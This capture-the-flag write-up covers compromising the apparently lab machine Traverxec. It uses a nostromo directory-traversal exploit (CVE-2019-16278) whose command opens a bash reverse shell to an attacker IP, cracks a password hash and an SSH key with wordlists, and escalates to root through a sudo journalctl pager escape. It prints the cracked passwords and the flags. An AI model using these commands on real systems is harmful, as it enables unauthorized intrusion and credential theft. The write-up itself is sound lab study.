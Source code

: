 # Traverxec

## SYN Scan
```
nmap -sS -sV -O -p- -v -T4 -Pn -oA nmap/full_syn 10.10.10.165

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## The Web Application
![web_app](./screenshots/web_app.png)

## RCE via Directory Traversal
```
Directory Traversal in the function http_verify in nostromo nhttpd through 1.9.6 allows an attacker to achieve remote code execution via a crafted HTTP request.
```

https://nvd.nist.gov/vuln/detail/CVE-2019-16278

https://www.exploit-db.com/exploits/47837

### Exploitation
```
python2 cve2019-16278.py 10.10.10.165 80 "bash -c 'bash -i >& 2>/dev/tcp/10.10.14.26/4444 0>&1'"
```

```
(remote) www-data@traverxec:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Local User Enumeration
```
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

## David's Hash
```
(remote) www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
...
servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
...
htpasswd		/var/nostromo/conf/.htpasswd
...
```

```
(remote) www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### Cracked The md5crypt Hash
Used `Hashcat` with `rockyou` to crack the hash.

```
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

## Accessible Folder of david
```
(remote) www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```

```
(remote) www-data@traverxec:/home/david/public_www$ ls -l
total 8
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

```
(remote) www-data@traverxec:/home/david/public_www/protected-file-area$ ls -l
total 4
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```

## Encrypted RSA Private Key
```
$ file backup-ssh-identity-files.tgz 
backup-ssh-identity-files.tgz: gzip compressed data, last modified: Fri Oct 25 21:02:59 2019, from Unix, original size modulo 2^32 10240
```

`home/david/.ssh/`
```
$ ls -l 
total 12
-rw-r--r-- 1 cpt cpt  397 Oct 26  2019 authorized_keys
-rw------- 1 cpt cpt 1766 Oct 26  2019 id_rsa
-rw-r--r-- 1 cpt cpt  397 Oct 26  2019 id_rsa.pub
```

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
...
```

### Cracked The RSA Private Key
Used `JohnTheRipper` with `rockyou` to crack the RSA private key of `david`.

```
john david_id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt --fork=12
...
hunter           (id_rsa)
...
```

## Privilege Escalation via RSA Private Key (david)
Used the RSA private key to log in as `david`.

```
ssh -i david_backup/home/david/.ssh/id_rsa david@10.10.10.165
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

## The User Flag
```
david@traverxec:~$ ls -l /home/david/
total 12
drwx------ 2 david david 4096 Oct 25  2019 bin
drwxr-xr-x 3 david david 4096 Oct 25  2019 public_www
-r--r----- 1 root  david   33 Oct 25  2019 user.txt
```

```
david@traverxec:~$ cat /home/david/user.txt 
7db0b48469606a42cec20750d9782f3d
```

## Interesting Log Script
Found `server-stats.sh` in `/home/david/bin` folder. It contains an interesting logging script. 

```
david@traverxec:~/bin$ ls -l
total 8
-r-------- 1 david david 802 Oct 25  2019 server-stats.head
-rwx------ 1 david david 363 Oct 25  2019 server-stats.sh
```

```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

## Privilege Escalation via NOPASSWD Executable (root)
Examined the script and realized that `david` executes `journalctl` with `root` privileges.

```
...
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
...
```

Tried to run the command.

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
-- Logs begin at Wed 2021-04-14 11:16:00 EDT, end at Wed 2021-04-14 12:29:15 EDT. --
Apr 14 11:45:51 traverxec sudo[15243]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/2 ruser=www-data rhost=  user=www-data
Apr 14 11:45:55 traverxec sudo[15243]: pam_unix(sudo:auth): conversation failed
Apr 14 11:45:55 traverxec sudo[15243]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Apr 14 11:45:55 traverxec sudo[15243]: www-data : command not allowed ; TTY=pts/2 ; PWD=/ ; USER=root ; COMMAND=list
Apr 14 12:01:07 traverxec crontab[12483]: (www-data) LIST (www-data)
```

It worked. That means `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` can be executed as `root` privileges.

### Exploitation
https://gtfobins.github.io/gtfobins/journalctl/

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
...
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
root@traverxec:/home/david/bin# ls -l /root/
total 44
-rw-r--r-- 1 root root 37520 Oct 25  2019 nostromo_1.9.6-1.deb
-r-------- 1 root root    33 Oct 25  2019 root.txt
```

```
root@traverxec:/home/david/bin# cat /root/root.txt 
9aa36a6d76f785dfd320a478f6e0d906
```
